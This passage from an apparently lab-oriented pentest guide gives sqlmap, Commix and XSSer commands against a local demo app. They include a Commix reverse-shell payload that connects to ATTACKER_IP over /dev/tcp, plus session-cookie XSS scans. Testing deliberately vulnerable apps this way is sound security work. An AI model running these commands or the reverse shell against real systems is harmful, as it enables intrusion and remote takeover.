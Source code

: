 #### SQLMap with Burp Request File
```bash
# 1. Save Burp request to file (request.txt):
POST /login HTTP/1.1
Host: localhost:3001
Content-Type: application/json

{"username":"admin@snyk.io","password":"test"}

# 2. Run SQLMap
sqlmap -r request.txt --level=5 --risk=3 --batch
```

---

### 3.3 Commix - Command Injection Exploitation

**Objective**: Automate command injection attacks

```bash
# Test image processing endpoint
commix --url="http://localhost:3001/create" \
  --data="content=![alt text](INJECT_HERE)" \
  --level=3 \
  --technique=classic

# With custom injection marker
commix --url="http://localhost:3001/create" \
  --data="content=![alt text](https://example.com/img.png;*INJECT*)" \
  --os-cmd="id"

# Reverse shell payload
commix --url="http://localhost:3001/create" \
  --data="content=![alt text](https://example.com/img.png;*INJECT*)" \
  --os-cmd="bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
```

---

### 3.4 XSSer - Cross-Site Scripting Exploitation

**Objective**: Automated XSS detection and exploitation

```bash
# Basic XSS scan
xsser --url="http://localhost:3001/login?redirectPage=XSS"

# POST parameter testing
xsser --url="http://localhost:3001/create" \
  -p "content=XSS" \
  --Coo="connect.sid=SESSION_COOKIE"

# Fuzz all parameters
xsser --url="http://localhost:3001/login" \
  --auto \
  --reverse-check

# Generate XSS report
xsser --url="http://localhost:3001/login?redirectPage=XSS" \
  --report=xss-report.html \
  --heuristic
```

---